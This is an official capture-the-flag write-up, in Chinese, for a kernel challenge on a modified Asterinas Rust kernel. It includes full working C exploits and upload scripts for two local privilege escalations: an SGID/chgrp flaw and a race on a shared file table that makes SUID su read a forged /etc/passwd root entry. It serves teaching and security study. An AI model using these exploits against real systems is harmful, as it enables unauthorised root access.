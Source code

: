 # [Binary] 传统 C 语言核易危

- 命题人：lrh2000（题面：ouuan、lrh2000）
- 飞沙走石：300 分
- 力拔山兮：400 分

## 题目描述

<center><p>
    <img src="../../problemset/media/binary-safekernel-checkcheckbug.webp" style="max-width: 100%; max-height: 250px; border-radius: 1em">
    <br><span style="opacity: 0.6">↑ 传统的 Linux 核已畏（此图与解题无关）（<a href="https://commons.wikimedia.org/wiki/File:Kernel-panic.jpg" target="_blank" rel="noopener">原图</a>）</span>
</p></center>


<blockquote>
<p>传统的内核 😯   就是用 C 语言写漏洞 👓<br>
好无趣 😫   好危险 😩<br>
而 <strong>Rust 内核</strong> 🤓☝   就是在传统的内核 🧐<br>
加入 Rust 🤭   好安全 🥰<br>
💥💥💥要爆了💥💥💥<br>
Rust 内核 🎶   飞沙走石 🪨<br>
Rust 内核 🎶   <strong>权限提升！！！</strong>🤯</p>
</blockquote>
<p>本题引入了最新最热的<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas">星绽操作系统内核</a>。兼容 Linux 系统调用，好耶！是 Rust，好耶！甚至还是最小化 unsafe 代码的框内核架构，那肯定没有内存安全问题了！最新代码还在推进容器化支持呢，那么作为更加基础的功能——<strong>多用户权限检查</strong>，相信也没有问题啊嗯？</p>
<p><strong>补充说明：</strong></p>
<ul>
<li>本题对星绽内核进行了定制化修改，具体参见源码的 <code>0001-GeekGame-2025.patch</code> 文件。</li>
<li>Flag 1 与 Flag 2 被存放在 <code>/flag1.txt</code> 与 <code>/flag2.txt</code>，但非 root 用户没有读取权限。具体参见 <code>init.sh</code> 等文件。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>所有 Flag：<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/execve.2.html#:~:text=If%20the%20set-user-ID,the%20group%20of%20the%20program%20file">了解 SUID 与 SGID</a>。</li>
<li>Flag 1: 阅读下发 <code>0001-GeekGame-2025.patch</code> 文件中关于修改文件所属 <strong>用户组</strong> 的相关逻辑。</li>
<li>Flag 2: 阅读共享文件表的<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared">预期表现</a>和<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124">实际代码</a>。</li>
</ul>
</div>

**[【附件：下载题目源码（binary-safekernel.tar.xz）】](attachment/binary-safekernel.tar.xz)**

**【终端交互：连接到题目】**

## 预期解法

首先，题面说的是真的：
 - 星绽内核确实在推进[容器化支持](https://github.com/asterinas/asterinas/issues/2214)，现在也[有 mount namespace 可以用了](https://github.com/asterinas/asterinas/pull/2379)，不过这道题因为权限问题并不能用。
 - 基本多用户权限检查也确实没做好，这个应该不用多解释了，下发 patch 中的绝大多数代码都与此相关，并且是正确的。

所以，抛开内存安全不谈，星绽内核基本的 security 其实并不咋样，所以出题人在命题时并不清楚会不会有很多天马行空的非预期解（毕竟真的有几百个 syscall 可以调用呢），因此（主要是 Flag 2）没有给足够的方向暗示。不过看上去难度控制出现了一点问题，导致第一阶段并没有选手通过 Flag 2。

### Flag 1

预期解法：审计下发的 patch，从中发现[文件的所属用户可以随便修改所属用户组](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/src/0001-GeekGame-2025.patch#L788)，也可以设置 SGID，从而想到可以通过将可执行文件的 GID 设置为 0, 再设置 SGID，执行它就可以获得 root 用户组权限，因此能读取 `/flag1.txt`。

注意 busybox 会自动丢弃其“非法”获得的权限，所以需要自己上传一个二进制可执行文件（毕竟这是 binary 题目呢）。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "chgrp 0 /tmp/exp"
	echo "chmod g+s /tmp/exp"
	echo ""
	echo "/tmp/exp"
}

gen | tee out
```

```c
#include <unistd.h>
#include <fcntl.h>

int main(void)
{
	int buf[32];
	read(open("/flag1.txt", O_RDONLY), buf, sizeof(buf));
	write(STDOUT_FILENO, buf, sizeof(buf));

	return 0;
}
```

### Flag 2

预期解法：审计 execve 系统调用的实现，嗯？等等，为什么要审计 execve 系统调用？
 - execve 系统调用是正常用户请求高权限（获取 root 权限或其他 capability）的常规入口（比如执行 su、sudo），且题面暗示了这个星绽内核的成熟性存疑，所以如果出问题能提权的概率较大；
 - 题目下发附件 `init.sh` 中，Flag 2 的环境与 Flag 1 的环境除了 flag 文件本身权限不同之外，最大的区别就是 Flag 2 额外[设置了 busybox 的 SUID 属性](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/game/initramfs/init.sh#L23)，那么这就意味着能通过执行 busybox 短时间获得 root 身份，如果要利用这一点，先去看的系统调用也应该是 execve。

然后发现提示中的 [FIXME](https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124)：“This is just wrong if the file table is shared with other processes”，共享（“shared”）听上去就不是很安全，所以如果再仔细查阅些资料的话可以发现 Linux 中支持通过 [`clone(CLONE_FILES)`](https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared) 使得子进程与父进程共享文件表，但当子进程执行其他程序时，其文件表共享应该被撤销。

本题内核并未实现上述行为，那么子进程可以执行一个 SUID 程序（比如 su），父进程可以篡改其文件表导致出现安全性问题。具体来说，本题 busybox 是静态链接的，su 唯一会打开的文件就是 `/etc/passwd`，那么只要将其篡改就可以控制 root 用户的密码或者新加入一个 UID=0 且没有密码的新用户，完成提权并且可以修改 `/flag2.txt` 的权限使其可读。

题目环境中 QEMU 给了多核支持（[smp=2](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/game/run.sh#L18)），所以开两个程序分别执行 su 和通过 dup 系统调用篡改 `/etc/passwd` 所对应的文件描述符即可。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "while true; do /tmp/exp; done"
}

gen | tee out
```

```c
#define _GNU_SOURCE

#include <sched.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/wait.h>

// The password for the root user is "1" (without quotation marks).
#define FAKE_PASSWD "/tmp/passwd"
#define FAKE_ROOT "root:nnNMRAmF.Fsug:0:1000::/:/bin/sh\n"

static int fd;

static int child(void *arg)
{
	for (int i = 0; i < 1000000; ++i) {
		dup2(fd, fd + 1);
		close(fd + 1);
	}

	return -1;
}

int main(int argc, char **argv)
{
	static char stk[4096];

	if (geteuid() == 0) {
		chmod("/flag2.txt", 0777);
		read(open("/flag2.txt", O_RDONLY), stk, sizeof(stk));
		write(STDOUT_FILENO, stk, sizeof(stk));
		return 0;
	}

	fd = open(FAKE_PASSWD, O_WRONLY | O_CREAT | O_TRUNC, 0644);
	write(fd, FAKE_ROOT, sizeof(FAKE_ROOT));
	close(fd);

	fd = open(FAKE_PASSWD, O_RDONLY);

	clone(&child, stk + sizeof(stk), CLONE_FILES | CLONE_PARENT | SIGCHLD,
	      NULL);
	execve("/bin/su", (char *[]){ "/bin/su", "-s", argv[0], NULL }, NULL);

	return -1;
}
```

## 优秀选手解法

 - Flag 1：可以 100% AI 出。
 - Flag 2：其实用 `lseek(3)` 探测 `/etc/passwd` 有没有被 su 打开更加可靠一些。
